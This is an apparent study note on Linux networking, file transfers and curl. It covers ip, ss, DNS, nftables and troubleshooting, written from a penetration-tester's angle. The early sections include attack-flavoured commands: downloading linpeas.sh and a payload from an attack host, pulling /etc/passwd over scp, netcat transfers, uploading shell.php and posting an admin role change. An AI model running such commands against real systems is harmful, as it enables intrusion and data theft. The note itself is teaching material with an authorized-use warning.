

# 🌐 Linux Networking, Transfers & Curl

> [!abstract] Master Note of [[Linux]]
> Once you have a foothold, the next problems are always **moving data** — pulling tools onto the box, exfiltrating loot off it — and **talking to services** by hand. This note covers the transfer toolkit and then a deep dive on `curl`, the operator's Swiss-army knife for HTTP.

## Parent Learning Order
Linux Introduction & Distributions -> Linux CLI & Core Commands -> Linux I-O Redirection & Piping -> Linux File System Hierarchy & Editors -> Linux Boot Process & systemd -> Linux Permissions & Process Management -> Linux Memory & Storage Internals -> Linux Networking, Transfers & Curl -> Linux Security Controls & Hardening -> Linux Observability, Logging & Forensics -> Linux Advanced Mechanics & Privilege Escalation -> Linux Kernel Internals -> Linux Documentation & Note-Taking

## Start from zero — identity, reachability, transport & application

A network exchange succeeds only when several independent layers agree. An interface must be usable, the host must have an address, routing must select a next hop, neighbor discovery must resolve a local link destination, a firewall must permit the packet, a transport protocol must identify endpoints with ports, and an application must speak the expected protocol. A successful DNS lookup proves only name resolution; it does not prove routing, TCP reachability, TLS trust, or application health.

Learn the vocabulary as contracts. An **IP address** identifies a network-layer endpoint. A **prefix** defines which addresses are local. A **route** chooses where packets go. A **port** identifies a transport endpoint. A **socket** binds protocol, addresses, and ports to a process. **DNS** maps names to records. **TLS** authenticates and encrypts an application session. A **file transfer** is an application operation whose integrity and authorization must still be verified.

Prerequisites are command execution, files, and hashes. Use only systems you own or are authorized to test. Begin by observing one connection with `ip`, `ss`, resolver queries, and a verbose HTTP exchange. At each layer, distinguish timeout, rejection, name failure, certificate failure, authentication failure, and application error; they imply different responsible components.

## Getting files onto a box
| Method | Command | Notes |
| --- | --- | --- |
| **wget** | `wget http://10.10.10.5/linpeas.sh` | Simple HTTP(S) download to disk; `-O out` renames |
| **curl** | `curl -O http://10.10.10.5/tool` | `-O` keeps the remote name; `-o` renames |
| **scp** | `scp tool.sh user@target:/tmp/` | Secure copy **over SSH** — encrypted; `scp user@t:/etc/passwd .` pulls back |
| **git clone** | `git clone https://github.com/x/tool` | Pull a whole tool repo + history |
| **package mgr** | `sudo apt install nmap` · `pacman -S` · `dnf install` | The *right* way to install; offline boxes won't have it |
| **nc** | `nc -lvnp 9001 > f` ⟷ `nc host 9001 < f` | Netcat file transfer when nothing else is present |
| **base64** | `base64 -w0 f` → paste → `base64 -d > f` | Move a file through a text-only shell |

**Serve files from your attack host** (the other half of every transfer):
```shell-session
$ python3 -m http.server 80          # instant web server in the current dir
# on the target:
$ wget http://<you>/payload  ||  curl -O http://<you>/payload
```

## `curl` — the deep dive
`curl` speaks HTTP(S) (and FTP, and more) from the command line — how you test APIs, replay requests, grab pages, and script attacks. The flags to own:

| Flag | Meaning |
| --- | --- |
| `-X POST` | Set the HTTP **method** (GET/POST/PUT/DELETE) |
| `-H "Header: val"` | Add a **header** (auth tokens, `Content-Type`, custom) |
| `-d 'a=1&b=2'` | Send a **body** (implies POST); `--data-binary @file` sends raw |
| `-G` | Send `-d` data as a **query string** (GET) |
| `-F 'file=@x.php'` | **Multipart** form upload |
| `-b "sess=abc"` / `-c jar` | Send cookies / **save** cookies to a jar |
| `-u user:pass` | HTTP **basic auth** |
| `-A "Mozilla/5.0"` | Set the **User-Agent** |
| `-e http://ref` | Set the **Referer** |
| `-x http://127.0.0.1:8080` | Route through a **proxy** (e.g. Burp) |
| `-L` | **Follow** redirects |
| `-k` | **Ignore** TLS cert errors (self-signed labs) |
| `-o file` / `-O` | Save to a named file / keep the remote filename |
| `-s` / `-S` | **Silent** / show errors while silent (scripting) |
| `-I` | Fetch **headers only** (HEAD) — fast fingerprinting |
| `-v` | **Verbose** — see the full request/response exchange |
| `-w '%{http_code}'` | Print chosen response fields (great for scripting) |

### Worked examples
```shell-session
# Fingerprint a server from its headers
$ curl -sI http://target | grep -i server
Server: Apache/2.4.41 (Ubuntu)

# Log in, save the session cookie, reuse it
$ curl -s -c jar -d 'user=admin&pass=admin' http://target/login
$ curl -s -b jar http://target/dashboard

# Hit a JSON API with a bearer token
$ curl -s -X POST http://target/api/users \
       -H 'Authorization: Bearer eyJ...' \
       -H 'Content-Type: application/json' \
       -d '{"role":"admin"}'

# Route everything through Burp, ignore TLS warnings
$ curl -k -x http://127.0.0.1:8080 https://target/api/me

# Upload a file (test an upload endpoint)
$ curl -F 'file=@shell.php' http://target/upload

# Fuzz IDs and print only the HTTP status of each
$ for i in $(seq 1 20); do
    echo -n "$i: "; curl -s -o /dev/null -w '%{http_code}\n' http://target/user/$i
  done
```

### Reading a verbose exchange
`-v` shows exactly what goes on the wire — the fastest way to *understand* HTTP:
```shell-session
$ curl -v http://target/ 2>&1 | head
> GET / HTTP/1.1          # > = what curl SENT (request)
> Host: target
> User-Agent: curl/8.5.0
< HTTP/1.1 200 OK         # < = what came BACK (response)
< Server: nginx
```

> [!warning] Authorized Simulation context
> `curl` is dual-use: the same request that tests *your* API is the one used to probe **SSRF**, replay stolen tokens, or fetch a webshell. Use it against systems you own or are authorized to assess. Defensively, `-v` is unbeatable for seeing precisely what a request looks like on the wire.

> [!tip] Crook → Root
> **Crook** opens a browser. **Root** reconstructs any request in `curl`, scripts a hundred of them, pipes the output into `grep`, and pins it through a proxy for inspection — total control over the HTTP conversation.

## The Linux packet path

Applications use sockets. A TCP client asks the kernel to connect a local address and ephemeral port to a remote tuple. The kernel performs route lookup, applies policy rules, selects a source address and interface, resolves the next-hop MAC with ARP or Neighbor Discovery, traverses netfilter hooks, and hands frames to the NIC driver. Incoming traffic follows the reverse path through driver queues, protocol processing, firewall hooks, socket lookup, and the waiting process.



`ip` is the authoritative interface and routing tool. `ip address` shows layer-3 assignments; `ip link` shows layer-2 state and MTU; `ip route` shows destination lookup; `ip rule` shows policy-routing selectors. The route with the longest matching prefix wins, then metric and policy break ties.

```shell-session
$ ip -br link; ip -br address
lo               UNKNOWN        127.0.0.1/8 ::1/128
enp0s31f6        UP             10.20.30.44/24 fe80::a62b:b0ff:fe12:3456/64
$ ip route get 198.51.100.20
198.51.100.20 via 10.20.30.1 dev enp0s31f6 src 10.20.30.44 uid 1000
    cache
$ ip neigh show dev enp0s31f6
10.20.30.1 lladdr 00:11:22:33:44:55 REACHABLE
```

Use `ss` to inspect socket state and owners. `LISTEN` indicates a server socket; TCP connections transition through SYN states, `ESTAB`, FIN states, and `TIME-WAIT`. A listener bound to `127.0.0.1` is local-only, while `0.0.0.0` or `[::]` usually accepts on all matching interfaces.

```shell-session
$ sudo ss -lntup
Netid State  Local Address:Port Peer Address:Port Process
tcp   LISTEN 127.0.0.1:5432     0.0.0.0:*     users:(("postgres",pid=932,fd=7))
tcp   LISTEN 0.0.0.0:22         0.0.0.0:*     users:(("sshd",pid=812,fd=3))
```

## DNS resolution from stub to authoritative answer

Applications usually call libc's resolver. `/etc/nsswitch.conf` defines whether names consult local files, DNS, mDNS, or systemd modules and in what order. `/etc/resolv.conf` points to a resolver or local stub; systemd-resolved may maintain per-link DNS and split-horizon routing. `resolvectl status` shows the effective configuration. `dig` queries DNS directly and exposes flags, authority, TTL, and answer sections.

```shell-session
$ getent ahostsv4 intranet.example
10.20.30.50 STREAM intranet.example
$ dig +noall +answer intranet.example A
intranet.example. 300 IN A 10.20.30.50
$ resolvectl query intranet.example
intranet.example: 10.20.30.50 -- link: enp0s31f6
```

Diagnose DNS systematically: verify the literal IP path, inspect `nsswitch.conf`, query the configured resolver, compare a known external resolver only if policy allows, inspect search domains, and capture UDP/TCP port 53. Do not assume every failure is DNS; TLS name validation and proxy policy can produce similar symptoms.

## netfilter, nftables & network namespaces

Netfilter provides hooks for filtering, NAT, mangling, and connection tracking. **nftables** is the modern ruleset interface; older `iptables` commands may be compatibility frontends. Rules live in tables, chains attached to hooks, and sets/maps. Default-deny policy with explicit stateful allowances is easier to reason about than scattered exceptions.

```shell-session
$ sudo nft list ruleset
table inet filter {
  chain input {
    type filter hook input priority filter; policy drop;
    ct state established,related accept
    iif "lo" accept
    tcp dport 22 ip saddr 10.20.30.0/24 accept
  }
}
$ sudo nft --check -f candidate.nft
```

Always save the current ruleset and use `nft --check` before applying changes remotely. A timed rollback protects against locking out the management session. Network namespaces have independent interfaces, routes, sockets, and firewall views. Use `ip netns`, `lsns -t net`, and `nsenter -t PID -n` to inspect the correct network context.

## Transfer integrity & controlled HTTP work

Choose transfers by confidentiality, integrity, authentication, auditability, and destination safety. SSH-based `scp`, SFTP, and `rsync` provide encryption and host authentication. HTTPS provides server authentication when certificates are validated. `-k` disables that assurance and should be limited to controlled labs with another verification channel. Always hash important artifacts:

```shell-session
$ scp evidence.tar.zst analyst@collector:/srv/cases/IR-204/
$ sha256sum evidence.tar.zst
2d711642b726b04401627ca9fbac32f5da7e5f1f...  evidence.tar.zst
$ ssh analyst@collector 'sha256sum /srv/cases/IR-204/evidence.tar.zst'
2d711642b726b04401627ca9fbac32f5da7e5f1f...  /srv/cases/IR-204/evidence.tar.zst
```

Advanced `curl` controls include `--connect-timeout`, `--max-time`, `--retry`, `--retry-all-errors`, `--resolve name:port:address`, `--cacert`, `--cert`/`--key` for mutual TLS, `--compressed`, `--http1.1`/`--http2`, `--trace-ascii`, and `--fail-with-body`. Quote URLs containing `&`, and use `--data-urlencode` when the client should perform form encoding.

```shell-session
$ curl --fail-with-body --connect-timeout 3 --max-time 15 \
  --cacert lab-ca.pem --resolve api.example:443:10.20.30.50 \
  -H 'Accept: application/json' https://api.example/health \
  -w '\nstatus=%{http_code} peer=%{remote_ip} time=%{time_total}s\n'
{"status":"ok","database":"ready"}
status=200 peer=10.20.30.50 time=0.084s
```

## Troubleshooting from link to application

Work upward through layers. Confirm interface state and addresses with `ip -br link` and `ip -br address`; choose the route with `ip route get`; inspect neighbor resolution with `ip neigh`; test name resolution with `resolvectl query` or `dig`; inspect listeners and established sockets with `ss`; then test transport and the application protocol. A timeout usually means silent loss, filtering, or an unreachable path; immediate refusal means the destination answered but no listener accepted; TLS and HTTP failures occur after transport succeeds.

For transfers, verify free space, destination permissions, proxy variables, certificate chain, authentication, redirects, expected length, and cryptographic hash. A successful HTTP status alone does not prove that the desired file was received: a login page can arrive with `200 OK`. Inspect content type and file signature before execution.

```shell-session
$ ip route get 203.0.113.20
203.0.113.20 via 10.20.30.1 dev eth0 src 10.20.30.44 uid 1000
$ curl --fail-with-body --show-error --silent \
    --write-out 'code=%{http_code} type=%{content_type} bytes=%{size_download}\n' \
    -o artifact.bin https://repo.lab/artifact.bin
code=200 type=text/html; charset=utf-8 bytes=1842
$ file artifact.bin
artifact.bin: HTML document, UTF-8 Unicode text
```

The network worked; application authentication or redirect handling did not. Preserve verbose traces without exposing credentials, and fix the failing layer rather than disabling TLS verification.

## Hands-on lab — trace one connection end to end

1. Start a local HTTP server bound to loopback and confirm the listener with `ss -lntp`.
2. Use `curl -v` and record source/destination tuples, HTTP headers, status, and timing.
3. Run `ip route get` for the destination and identify route, gateway, interface, and selected source.
4. Capture the request with `tcpdump -nn -i lo 'tcp port 8000'`; explain SYN, handshake, payload, and FIN.
5. Create a disposable network namespace connected through a veth pair, assign addresses, add a route, and confirm its isolated socket table.
6. Write and validate—but do not apply to a remote production host—an nftables policy allowing established traffic, loopback, and one management subnet.

Expected evidence:

```text
$ curl -s -o /dev/null -w '%{http_code} %{remote_ip} %{time_total}\n' http://127.0.0.1:8000/
200 127.0.0.1 0.001284
$ ss -tn state established '( sport = :8000 or dport = :8000 )'
Recv-Q Send-Q Local Address:Port Peer Address:Port
```

## Security implications

An exposed listener, permissive route, poisoned resolver, disabled certificate validation, or unsafe firewall update can defeat application security. Troubleshooting should follow the actual packet path and namespace rather than randomly changing controls. Transfers must preserve integrity and client boundaries; captures can contain credentials and require evidence handling. Restrict raw-socket and network-administration capabilities because they permit packet capture, spoofing, route changes, and firewall manipulation.

### Crook → Operator → Root checkpoint

- **Crook:** identify interfaces, routes, listeners, DNS answers, and perform authenticated transfers.
- **Operator:** trace socket-to-packet behavior, diagnose resolver layers, validate nftables policy, and reproduce HTTP precisely with integrity checks.
- **Root:** reason across namespaces, policy routing, conntrack, NAT, qdiscs, certificate trust, and packet evidence to explain exactly why a connection succeeds or fails.

---
> 🔼 Up: [[Linux]]
